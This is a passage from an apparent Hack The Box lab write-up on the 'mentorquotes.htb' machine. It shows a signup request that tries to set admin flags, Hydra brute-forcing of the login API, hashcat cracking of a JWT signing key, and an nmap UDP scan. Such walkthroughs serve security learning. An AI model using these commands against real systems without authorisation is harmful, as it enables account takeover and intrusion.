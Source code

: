 ```json
{
  "detail": "Only admin users can access this resource"
}
```

The documentation page contained an email, I tried to use it to create a new user.

```http
POST /auth/signup HTTP/1.1
Host: api.mentorquotes.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
Content-type: application/json
Content-Length: 124

{
  "email": "james@mentorquotes.htb",
  "username": "james",
  "password": "12345678",
  "admin": 1,
  "isAdmin": 1
}
```

This told me that the user already existed.

```json
{
  "detail": "User already exists! "
}
```

I tried using Hydra to brute force the password for james. And I tried to brute-force the key to sign the JWT with hashcat. They both failed.

```bash
$ hydra -l james -P /usr/share/seclists/rockyou.txt -u -e snr  -m "/auth/login:{\"email\"\:\"james@mentorquotes.htb\",\"username\"\:\"^USER^\",\"password\"\:\"^PASS^\"}:200 OK:H=Content-Type: application/json" api.mentorquotes.htb http-post-form

$ hashcat -a 0 -m 16500 eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzICIsImVtYWlsIjoiamFtZXNAbWVudG9ycXVvdGVzLmh0YiJ9._Oh3hzsiflgbMWcFjZGF33bxTCt263o0vl5m6hqFqaU /usr/share/seclists/rockyou.txt
```

I lost a lot of hours trying to break the API. Eventually, I looked for a hint on the HTB forum and saw something about UDP. I really need to start scanning UDP all the time.

```bash
$ sudo nmap -sU target -oN nampUdp.txt
[sudo] password for ehogue:
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-25 17:17 EST
Stats: 0:01:03 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
Nmap scan report for target (10.10.11.193)
Host is up (0.030s latency).
Not shown: 998 closed udp ports (port-unreach)
PORT    STATE         SERVICE
68/udp  open|filtered dhcpc
161/udp open          snmp

Nmap done: 1 IP address (1 host up) scanned in 1013.42 seconds
```
